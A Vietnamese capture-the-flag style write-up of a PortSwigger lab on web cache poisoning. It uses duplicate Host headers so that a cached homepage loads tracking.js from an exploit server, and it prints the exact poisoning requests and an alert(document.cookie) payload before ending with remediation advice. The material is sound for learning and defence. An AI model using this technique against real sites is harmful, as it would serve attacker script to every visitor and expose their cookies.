




## Thông tin bài Lab
* **Tên bài Lab**: Web cache poisoning via ambiguous requests
* **Chuyên đề**: HTTP Host Header attacks / Web Cache Poisoning
* **Mức độ**: Practitioner
* **Mục tiêu**: Đầu độc Web Cache của trang chủ để kích hoạt hàm JavaScript `alert(document.cookie)` trên trình duyệt của nạn nhân.

---

## 1. Kiến thức nền tảng

Để hiểu và khai thác thành công lỗ hổng này, chúng ta cần nắm vững cơ chế phối hợp giữa Caching Proxy và Backend, cũng như khái niệm Cache Key và chuẩn xử lý HTTP Request Headers.

### 1.1. Cơ chế hoạt động của Web Cache và Cache Key

Trong kiến trúc hệ thống hiện đại, Web Cache (như Varnish, Nginx Cache, Cloudflare, Squid) đứng trước ứng dụng web để lưu tạm các phản hồi tĩnh hoặc trang HTML tĩnh, giúp giảm tải cho cơ sở dữ liệu và tối ưu thời gian phản hồi cho người dùng.

Khi một request được gửi đến, Cache sẽ tính toán chuỗi định danh duy nhất gọi là **Cache Key** để xác định xem nội dung này đã được lưu trữ trong bộ nhớ đệm hay chưa. Theo quy chuẩn mặc định, Cache Key gồm các thành phần cơ bản sau:

```text
Cache Key = HTTP Method + Request Path / URI + Host Header chính
```

- **Cache Hit (`X-Cache: hit`):** Request gửi lên có Cache Key trùng khớp với một bản ghi đang tồn tại trong Cache RAM/Disk. Máy chủ Cache lập tức trả về nội dung đã lưu trữ mà không cần kết nối vào máy chủ Backend.
- **Cache Miss (`X-Cache: miss`):** Cache Key chưa tồn tại trong bộ nhớ đệm. Proxy sẽ chuyển tiếp request vào Backend để lấy dữ liệu tươi mới, sau đó lưu bản sao vào Cache (theo chỉ thị `Cache-Control: max-age=...`) rồi mới phản hồi cho Client.

### 1.2. Khái niệm Ambiguous Requests & Parser Discrepancy

Theo đặc tả kỹ thuật **RFC 7230 (mục 5.4)**, trong một request HTTP/1.1 chuẩn **chỉ được phép tồn tại duy nhất một header `Host`**. Nếu một gói tin chứa từ 2 header `Host` trở lên, máy chủ bắt buộc phải từ chối xử lý và phản hồi bằng mã lỗi `400 Bad Request`.

Tuy nhiên, trong mô hình phân tán gồm tầng Front-end Proxy và Backend Server, hai thành phần này thường sử dụng các bộ HTTP Parser khác nhau:

- **Tại tầng Front-end Cache:** Hệ thống parser chỉ đọc header `Host` đầu tiên để tạo Cache Key, coi các header trùng lặp tiếp theo là unkeyed hoặc bỏ qua.
- **Tại tầng Backend Application:** Bộ parser của framework hoặc ứng dụng khi gặp các header trùng tên lại ưu tiên ghi đè và sử dụng giá trị của header `Host` thứ hai để xử lý logic sinh giao diện HTML.

> [!NOTE]
> **Điểm mấu chốt:** Sự chênh lệch Parser Differential giữa Proxy Cache và Backend chính là kẽ hở cho phép kẻ tấn công tạo ra một Ambiguous Request: một mặt đánh lừa Cache Proxy lưu dữ liệu vào Cache Key hợp lệ của người dùng, mặt khác ép Backend sinh ra mã nguồn độc hại.

---

## 2. Mô hình tấn công

### 2.1. Phân tích nguyên nhân gốc rễ

Lỗ hổng phát sinh từ sự kết hợp của hai thiếu sót bảo mật:
1. **Thiếu chuẩn hóa tại tầng Cache Proxy:** Proxy không thực thi nghiêm ngặt RFC 7230 để loại bỏ request có nhiều `Host` header, đồng thời không đưa header `Host` thứ hai vào Cache Key.
2. **Tin tưởng ngầm định Input tại tầng Backend:** Ứng dụng Backend tự động lấy giá trị từ header `Host` do người dùng kiểm soát để ghép vào chuỗi nạp file JavaScript tĩnh (`<script src="//[Host-Header-Value]/resources/js/tracking.js">`).

### 2.2. Sơ đồ luồng dữ liệu tấn công

```text
[ Kẻ tấn công ]
       │
       │  Gửi Request Ambiguous:
       │  GET / HTTP/1.1
       │  Host: victim-lab.net         <── (1) Cache đọc Host này: Cache Key = 'GET / victim-lab.net'
       │  Host: exploit-server.net     <── (2) Backend lại đọc Host này để render mã HTML!
       ▼
[ Front-end Cache Proxy ] ──(Cache Miss)──► [ Back-end Application Server ]
       │                                                 │
       │                                                 │ Render trang chủ chứa script độc:
       │                                                 │ <script src="//exploit-server.net/resources/js/tracking.js">
       │                                                 ▼
       │◄──────── Trả về HTML đã bị can thiệp ───────────┘
       │
       ├─► [ LƯU VÀO CACHE ] Gán với Cache Key: "GET / victim-lab.net"
       │
[ Nạn nhân ]
       │  GET / HTTP/1.1
       │  Host: victim-lab.net         <── Gửi request truy cập trang chủ bình thường
       ▼
[ Front-end Cache Proxy ] ──(Cache HIT!)──► Trả về bản Cache HTML chứa script của Kẻ tấn công!
                                            Trình duyệt nạn nhân tự động tải tracking.js 
                                            từ exploit-server và thực thi ==> XSS Kích hoạt!
```

> [!NOTE]
> **Question:** Tại sao không dùng 1 header `Host: exploit-server.net` duy nhất mà phải dùng 2 header?
> 
> **Answer:**  
> Nếu ta chỉ gửi một header `Host: exploit-server.net`, Front-end Cache sẽ dùng chính domain của exploit server để làm Cache Key. Khi đó, bản cache độc hại chỉ được lưu dưới key `exploit-server.net`. Người dùng bình thường truy cập bằng domain thật `victim-lab.net` sẽ không bao giờ chạm vào bản cache đó. Ta bắt buộc phải gửi 2 header `Host`:
> - **Header 1 (`victim-lab.net`)**: Dùng để lừa Front-end Cache lưu vào đúng Cache Key của người dùng thật.
> - **Header 2 (`exploit-server.net`)**: Dùng để lừa Backend render mã độc vào nội dung trang.

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm tấn công được chia thành 5 bước tuần tự từ khảo sát ban đầu đến thực thi mã độc thành công:

### Bước 1: Khảo sát hành vi Cache và điểm phản xạ của Header

Gửi request `GET / HTTP/1.1` sang tab **Repeater** trên Burp Suite. Phân tích các header phản hồi và cấu trúc HTML trả về:

- **Dấu hiệu Web Cache:** Server trả về các header đặc trưng như `Cache-Control: max-age=30`, `Age: 8` và `X-Cache: hit`. Điều này xác nhận hệ thống có sử dụng cơ chế lưu bộ nhớ đệm với chu kỳ làm mới mỗi 30 giây.
- **Điểm phản xạ tài nguyên:** Trong phần body HTML của trang chủ, server nạp một file script theo cú pháp Protocol-relative URL:

```html
<script type="text/javascript" src="//0a1700f304b0069f805462b60076008c.h1-web-security-academy.net/resources/js/tracking.js"></script>
```

Nhận xét: Tên miền trong đường dẫn nạp file JS chính là giá trị lấy trực tiếp từ header `Host` của request.



---

### Bước 2: Thử nghiệm kỹ thuật Ambiguous Request với Cache Buster (`?abc=1`)

Để kiểm chứng khả năng can thiệp vào mã nguồn mà không làm hỏng bản cache của trang chủ thật, ta sử dụng một Cache Buster là tham số `?abc=1` nhằm tạo ra một không gian Cache Key độc lập. Đồng thời, ta chèn thêm một header `Host` thứ hai với giá trị tùy biến `Host: tu4nki3t`:

```http
GET /?abc=1 HTTP/1.1
Host: 0a1700f304b0069f805462b60076008c.h1-web-security-academy.net
Host: tu4nki3t
User-Agent: Mozilla/5.0...
```

**Kết quả kiểm chứng:**
- **Trạng thái Cache:** Response trả về `X-Cache: miss` ở lần gửi đầu tiên và `Age: 0`.
- **Phản xạ thành công:** Đường dẫn file JavaScript trong thẻ script bị biến đổi thành:

```html
<script type="text/javascript" src="//tu4nki3t/resources/js/tracking.js"></script>
```

Điều này chứng minh: Backend đã ưu tiên đọc header `Host` thứ hai (`tu4nki3t`) để sinh đường dẫn tài nguyên. Đồng thời, liên kết đến Exploit Server đã được xác định là: `https://exploit-0aa4009f047306ab804d6188010b0021.exploit-server.net`.



---

### Bước 3: Chuẩn bị mã độc trên Exploit Server

Vì backend của ứng dụng vẫn giữ nguyên cấu trúc đường dẫn file là `/resources/js/tracking.js`, ta truy cập vào giao diện Exploit Server và thiết lập một endpoint tương ứng chứa payload JavaScript:

- **File Path:** `/resources/js/tracking.js`
- **HTTP Response Header:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: application/javascript; charset=utf-8
  ```
- **Response Body:**
  ```javascript
  alert(document.cookie);
  ```

Nhấn nút **Store** để lưu trữ file mã độc trên máy chủ khai thác.



---

### Bước 4: Đầu độc trực tiếp vào Cache của trang chủ

Quay lại Burp Suite Repeater để chuyển từ bước thử nghiệm sang giai đoạn khai thác chính thức:
1. **Gỡ bỏ Cache Buster:** Xóa tham số `?abc=1` trên dòng Request Line để tác động trực tiếp vào trang chủ `GET / HTTP/1.1`.
2. **Gán domain Exploit Server:** Thay thế giá trị của header `Host` thứ hai bằng domain máy chủ tấn công:

```http
GET / HTTP/1.1
Host: 0a1700f304b0069f805462b60076008c.h1-web-security-academy.net
Host: exploit-0aa4009f047306ab804d6188010b0021.exploit-server.net
Cookie: session=...
```

Thực hiện gửi request cho đến khi response trả về xác nhận đường dẫn mã độc đã xuất hiện và được lưu trữ vào bộ nhớ đệm:

```html
<script type="text/javascript" src="//exploit-0aa4009f047306ab804d6188010b0021.exploit-server.net/resources/js/tracking.js"></script>
```

Khi gửi tiếp một lần nữa, header phản hồi ghi nhận `X-Cache: hit`, chứng tỏ bản cache độc hại đã chính thức chiếm quyền hiển thị của trang chủ.



---

### Bước 5: Kích hoạt tấn công và kiểm tra kết quả

Nạn nhân khi duyệt vào trang chủ sẽ nhận được bản lưu trữ nhiễm độc từ Cache Proxy. Trình duyệt của nạn nhân tự động tải và thực thi file `/resources/js/tracking.js` từ Exploit Server, kích hoạt hộp thoại `alert(document.cookie)`.

Giao diện bài Lab lập tức xuất hiện thông báo: **Congratulations, you solved the lab!**


---

## 4. Biện pháp khắc phục

Để phòng ngừa triệt để các lỗ hổng Web Cache Poisoning qua kỹ thuật Ambiguous Request, đội ngũ vận hành và phát triển cần áp dụng mô hình phòng thủ Defense-in-Depth tại cả 2 tầng:

### 4.1. Cấu hình bảo vệ tại tầng Reverse Proxy

- **Tuân thủ nghiêm ngặt đặc tả RFC 7230:** Cấu hình Reverse Proxy (Nginx, Apache, HAProxy, Envoy) từ chối lập tức bằng mã lỗi `400 Bad Request` đối với bất kỳ request nào chứa nhiều hơn một header `Host` hoặc header `Host` không hợp lệ.
- **Chuẩn hóa Request:** Trước khi chuyển tiếp request vào mạng nội bộ, proxy phải chuẩn hóa lại toàn bộ HTTP headers và loại bỏ triệt để các header trùng lặp hoặc không xác thực.
- **Loại bỏ Unkeyed Headers độc hại:** Cấu hình Edge Proxy tự động loại bỏ các header ghi đè như `X-Forwarded-Host`, `X-Host`, `X-Forwarded-Server` do client từ Internet gửi lên.

### 4.2. Cấu hình bảo vệ tại tầng Backend

- **Sử dụng đường dẫn tương đối:** Tuyệt đối không sử dụng header `Host` động để sinh đường dẫn nạp tài nguyên tĩnh (JS, CSS, hình ảnh). Thay vào đó, hãy luôn sử dụng đường dẫn tương đối an toàn:

```html
<!-- Cấu hình chuẩn: Nạp tài nguyên bằng đường dẫn tương đối -->
<script src="/resources/js/tracking.js"></script>
```

- **Sử dụng Domain tĩnh:** Trong trường hợp bắt buộc phải sử dụng đường dẫn tuyệt đối, domain phải được lấy cố định từ biến môi trường cấu hình của hệ thống (ví dụ `APP_URL=https://example.com` trong file `.env`), không bao giờ đọc trực tiếp từ biến động như `$_SERVER['HTTP_HOST']` hay `req.headers.host`.
- **Thiết lập chính sách Cache phù hợp:** Đối với các trang web hoặc tài nguyên có phản xạ thông tin từ người dùng, cần khai báo rõ ràng chỉ thị `Cache-Control: private, no-cache` để ngăn cản Proxy lưu trữ vào bộ nhớ đệm công cộng.
